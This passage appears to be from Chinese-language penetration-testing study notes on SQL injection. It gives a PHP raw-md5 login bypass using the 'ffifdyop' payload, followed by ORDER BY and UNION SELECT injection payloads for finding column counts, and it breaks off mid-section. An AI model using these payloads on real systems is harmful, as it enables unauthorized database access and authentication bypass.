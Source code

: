 #### ✅ 3️⃣ **Raw MD5 / SHA1 特別繞過**

> PHP 如果用：

```php
$sql = "SELECT * FROM admin WHERE pass = '".md5($password,true)."'";
```

* `md5($password, true)` 會傳回 16 位元 raw binary（有機會產生 null byte 或特殊字元）
* 如果可以控制 `$password`，攻擊者嘗試輸入：
  * 一些 payload 令 binary 結果中出現 `'\` 或 `\x00`，
  * 然後 SQL 語句就會被截斷或繞過。
* 進階 payload 思路（示範）：
  * 找 collision （複雜）
  * 更常見係其他注入路徑（因為 binary injection 比較困難，但存在）
  * 如果系統最後 `base64_encode()` 先傳入 SQL，攻擊者可以 base64 injection。

```
sql1 = "SELECT * FROM admin WHERE pass = '".md5("ffifdyop", true)."'";
sql1 = "SELECT * FROM admin WHERE pass = ''or'6�]��!r,��b�'";
```

## <mark style="color:red;">4. Union Injection  聯合注射</mark>

#### ✅ **1️⃣ 使用 `ORDER BY` 測試欄位數量**

> 目的：知道 SQL 查詢返回有幾多個欄位

**操作方法：**

*   先嘗試：

    ```
    ' order by 1-- -
    ```

    如果頁面正常，繼續：

    ```
    ' order by 2-- -
    ' order by 3-- -
    ' order by 4-- -
    ```
* 當你試到 `order by X` 個欄位會報錯，就代表 **總欄位數 = X - 1**

> 例子：

* `order by 4` 出錯，代表有 3 個欄位。

#### ✅ **2️⃣ 使用 `UNION SELECT` 測試**

> 目的：找出有幾個欄位可以成功回傳、顯示出你輸入的 payload

**操作方法：**

*   根據上面 `ORDER BY` 找到的欄位數，試：

    ```
    ' UNION SELECT 1,2,3-- -
    ```
